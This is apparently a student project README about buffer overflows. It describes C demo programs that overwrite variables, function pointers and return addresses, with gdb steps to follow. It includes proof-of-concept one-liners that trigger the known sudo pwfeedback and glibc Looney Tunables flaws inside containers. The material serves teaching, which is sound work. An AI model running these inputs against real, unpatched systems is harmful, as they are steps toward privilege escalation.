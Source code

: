 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/am3xLbu5)

# Buffer Overflows

### Buff Guys

Elias Xu, Jakob Weir, Julien Diamond

### Project Description:

This project aims to give a brief description of the cybersecurity concept of buffer overflows and show some demos, along with real life exploits.

Since C is the programming language that is easiest to show / understand memory overwrites and buffer overflows, we'd be using that for the project. However, we'd be using tryhackme attackboxes and dockerfiles to replicate the exact environment that is needed to run the exploit.

### Instructions:

There are multiple different different programs that are in this.

`working_demo.c`

`working_demo.c` is a proof of concept (POC) of the concept of buffer overflows. It's a simply strcopy that doesn't check for size, which can overflow the buffer.

To run, use these following commands:

```sh
# run whatever you want, you can overflow the buffer if you enter more than ~5 characters
make working_demo ARGS=aaaaaaaa
```

`changing_variable.c`

`changing_variable.c` demonstrates how buffer overflow can change / overwrite a variable name. When one overflows the buffer, the following variable's value will be overwritten, which is detected by the program and printed to output. 

To run, use these following commands:

```sh
# this will hopefully overwrite the buffer, changing the variable
make variable_change
> msksmadsmfnadsf
```

`function_pointing.c`

`function_pointing.c` demonstrates the use of gdb and how one can overwrite functions to perform actions that are not intended by the writers of the program (in this case, of course, it's fully intended, but let's ignore that). By default, the normal function will run, but through overwriting of variables the special or the other function can be run.

There are two functions that can be substituted into the program, one which uses simple piping while the other one uses more complex payloads. 

To run, use/execute these following commands:

```sh
make function_pointing
gdb functions
# inside gdb find the function pointers either for the special function or the other function
# then you could either do a run <<< python -c "print('A' * 13 [enough to overflow] + pointer code)"
# or first write that into a payload and then insert it into the run function
```

`demo2-4.c`

`demo2-4.c` similarly uses buffer overflow to call a special function, but it overwrites the return address of another function rather than the pointer to originally call the function.

to run:
```
gcc demo2-4.c -o demo2-4 -zexecstack -fno-stack-protector -no-pie -g
gdb demo2-4
(gdb) disas specialFunctions
# find the memory address of specialFunctions
(gdb) quit
# create input consisting of 16 filler bytes + memory address of specialFunctions
./demo2-4 < input.txt
```

`pwfeedback`

`pwfeedback` recreates the CVE-2019-18634 vulnerability, where when enabling the pwfeedback option for sudo (which makes * when you enter your password can lead to buffer overflows). The container cannot spawn a root shell, but the POC of the vulnerability does exist. 

To run the docker container and see the POC:

```sh
make deploy_pwfeedback
# inside the container run the show the seg fault
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | ./sudo -S id
```

`loony`

`loony` recreates the CVE-2023-4911 vulnerability, also called Looney Tunables, which exploits a coding issue in glibc to cause some shenanagins. Just as in pwfeedback, the exploit code to get the root shell doesn't work here, but it does allow you to run the POC. However, tryhackme has a working attackbox that allows you to run the exploit, which we'll demonstrate. 

to run the docker container and see the POC:

```sh
make deploy_loony
# inside the container run the show the seg fault
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

### Resources/ References:

- https://en.wikipedia.org/wiki/NOP_slide
- https://nvd.nist.gov/vuln/detail/cve-2019-18634
- https://y3a.github.io/2021/03/03/sudo-cve-analysis/
- https://tryhackme.com/room/looneytunes
- https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so 
- https://www.picussecurity.com/resource/blog/cve-2023-4911-looney-tunables-local-privilege-escalation-vulnerability 
- https://tryhackme.com/room/bof1 
- https://l1ge.github.io/tryhackme_bof1/ 
- https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261
- https://iamalsaher.tech/posts/2020-02-08-cve-2019-18634/ 
- https://stackoverflow.com/questions/4700998/explain-stack-overflow-and-heap-overflow-in-programming-with-example
- https://computerarcheology.com/Virus/MorrisWorm/?utm_source=chatgpt.com
